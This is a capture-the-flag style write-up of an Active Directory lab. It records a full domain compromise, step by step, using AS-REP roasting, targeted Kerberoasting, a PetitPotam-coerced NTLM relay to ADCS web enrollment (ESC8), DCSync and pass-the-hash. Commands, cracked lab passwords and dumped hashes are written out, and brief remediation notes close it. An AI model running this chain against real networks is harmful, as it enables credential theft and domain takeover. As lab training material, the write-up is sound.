# 🏰 ShadowGate — ESC8 + DCSync via Machine Account

**Platform:** Hack Smarter Security  
**Difficulty:** Medium  
**Tags:** `Active Directory` `ADCS` `ESC8` `AS-REP Roasting` `Kerberoasting` `PetitPotam` `DCSync`

---

## 🗺️ Attack Path Overview

```
AS-REP Roasting (jtrueblood)
    → BloodHound: GenericWrite over bbrown
        → Targeted Kerberoast (bbrown)
            → CertEnroll share → ADCS ESC8 detected
                → PetitPotam + ntlmrelayx → DC01$ cert
                    → certipy auth → DC01$ NT hash
                        → secretsdump → Domain Pwned ✓
```

---

## 🔍 Enumeration

### Nmap




```bash
nmap -sC -sV -p- --min-rate 5000 10.1.6.240
```

**Key ports:**

| Port | Service |
|------|---------|
| 53 | DNS |
| 80 | HTTP (IIS 10.0) |
| 88 | Kerberos |
| 389 / 636 | LDAP / LDAPS |
| 445 | SMB |
| 3268 / 3269 | Global Catalog LDAP |
| 3389 | RDP |
| 5985 | WinRM |
| 9389 | .NET Message Framing |

**Notable findings from nmap:**
- Domain: `shadow.gate`
- DC hostname: `DC01.shadow.gate`
- CA: `shadow-DC01-CA`
- SMB signing: **not required** ← relay attacks possible
- OS: Windows Server 2022 Build 20348

---

### Hosts File



```bash
nxc smb 10.1.6.240 -u '' -p '' --generate-hosts-file hosts
```

`/etc/hosts` entry:
```
10.1.6.240  DC01.shadow.gate shadow.gate DC01
```

---

### User Enumeration (Null Session)

```bash
nxc smb shadow.gate -u '' -p '' --users-export output.txt
```

Discovered users:
```
Administrator
Guest
krbtgt
ATHENA
mbrownlee
bbrown
jtrueblood
jsmith
clocke
tclarke
jbradford
amoss
```

---

## 🔐 Initial Access


### AS-REP Roasting



```bash
nxc ldap shadow.gate -u output.txt -p '' --asreproast hash
```

Got a hash for `jtrueblood` — pre-auth not required on this account.




```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

```
jtrueblood : blood_brothers
```

---

## 🩸 BloodHound Enumeration




```bash
nxc ldap DC01.shadow.gate -u jtrueblood -p 'blood_brothers' \
  --bloodhound --collection All --dns-server 10.1.6.240
```

**Key finding:** `JTRUEBLOOD` has **GenericWrite** over `BBROWN`.

BloodHound suggests **Targeted Kerberoast** as the abuse path.

---

## 🎯 Targeted Kerberoasting




Using `jtrueblood`'s GenericWrite, we can set an SPN on `bbrown` and request a TGS:

```bash
python3 targetedKerberoast.py -v -d 'shadow.gate' -u 'jtrueblood' -p 'blood_brothers' --dc-ip 10.1.6.240
```



Got TGS hash for `bbrown`. Crack it:

```bash
john hash3 --wordlist=/usr/share/wordlists/rockyou.txt
```

```
bbrown : 12345678
```

---

## 📂 SMB Share Enumeration

```bash
nxc smb shadow.gate -u bbrown -p '12345678' --shares
```

| Share | Access | Note |
|-------|--------|------|
| ADMIN$ | — | Remote Admin |
| C$ | — | Default share |
| **CertEnroll** | **READ** | **Active Directory Certificate Services** |
| IPC$ | READ | Remote IPC |
| NETLOGON | READ | Logon server share |
| SYSVOL | READ | Logon server share |

Seeing `CertEnroll` immediately signals ADCS is present. Time to enumerate it.

---

## 🏛️ ADCS Enumeration (Certipy)



```bash
certipy-ad find -u bbrown -p '12345678' -dc-ip 10.1.6.240 -vulnerable
```



**Output (trimmed):**
```json
"[!] Vulnerabilities": {
    "ESC8": "Web Enrollment is enabled over HTTP."
}
```

The CA (`shadow-DC01-CA`) has HTTP-based Web Enrollment enabled with no channel binding — classic **ESC8**.

---

## 💥 Exploitation — ESC8 (NTLM Relay to ADCS)

ESC8 abuses the Web Enrollment endpoint (`/certsrv/`). Since SMB signing is not required, we can coerce the DC to authenticate to us and relay that authentication to the CA to get a certificate issued as the DC machine account.

**References used:**
- https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/adcs/esc8
- https://www.hackingarticles.in/adcs-esc8-ntlm-relay-to-ad-cs-http-endpoints/



### Step 1 — Set up ntlmrelayx



```bash
impacket-ntlmrelayx -t http://10.1.6.240/certsrv/ -smb2support --adcs --template DomainController
```

### Step 2 — Coerce DC01 with PetitPotam



```bash
python3 PetitPotam.py -u bbrown -p '12345678' 10.200.54.108 10.1.6.240
```
- https://github.com/topotam/PetitPotam
PetitPotam successfully coerced DC01 to authenticate. ntlmrelayx relayed the connection and obtained a certificate:

```
[+] Got CERTIFICATE! Writing PKCS#12 certificate to ./DC01.shadow.gate.pfx
[+] Certificate successfully written to file
```

---

### Step 3 — Authenticate with the Certificate



```bash
certipy-ad auth -pfx DC01.shadow.gate.pfx -dc-ip 10.1.6.240
```

```
[*] Using principal: 'dc01$@shadow.gate'
[*] Got TGT
[*] Trying to retrieve NT hash for 'dc01$'
[*] Got hash for 'dc01$@shadow.gate':
    aad3b435b51404eeaad3b435b51404ee:57867e655d1abc9f45fd6e954e351531
```

We now have the **NT hash of the DC machine account** (`dc01$`). Machine accounts can perform DCSync.

---

## 👑 Post-Exploitation — DCSync




```bash
impacket-secretsdump 'dc01$@DC01.shadow.gate' -hashes ':57867e655d1abc9f45fd6e954e351531'
```

Full NTDS.DIT dump. Key hashes:

```
Administrator:500:...:4366ec0f86e29be2a4a5e87a1ba922ec:::
krbtgt:502:...:b5509cbfe52e94940c0ec99b21e09802:::
```

---

## ✅ Proof — Pass-the-Hash as Administrator




```bash
nxc smb shadow.gate \
  -u administrator \
  -H '4366ec0f86e29be2a4a5e87a1ba922ec'
```

```
[+] shadow.gate\administrator:4366ec0f86e29be2a4a5e87a1ba922ec (Pwn3d!)
```

---

## 📋 Summary

| Step | Technique | Tool |
|------|-----------|------|
| Initial foothold | AS-REP Roasting | nxc, john |
| Lateral move prep | BloodHound graph analysis | nxc bloodhound |
| Credential escalation | Targeted Kerberoast (GenericWrite) | targetedKerberoast.py, john |
| ADCS discovery | Certipy find -vulnerable | certipy-ad |
| Domain compromise | ESC8 NTLM relay → DC cert | PetitPotam, ntlmrelayx, certipy-ad |
| Credential dump | DCSync via machine account | impacket-secretsdump |
| Admin access | Pass-the-Hash | nxc |

---

## 🛡️ Remediation Notes

- **ESC8:** Disable HTTP Web Enrollment or enforce HTTPS with EPA (Extended Protection for Authentication / channel binding)
- **AS-REP Roasting:** Enable Kerberos pre-authentication for all accounts
- **SMB Relay:** Enable SMB signing domain-wide
- **Targeted Kerberoast:** Audit GenericWrite / GenericAll ACEs on user objects; remove unnecessary delegated rights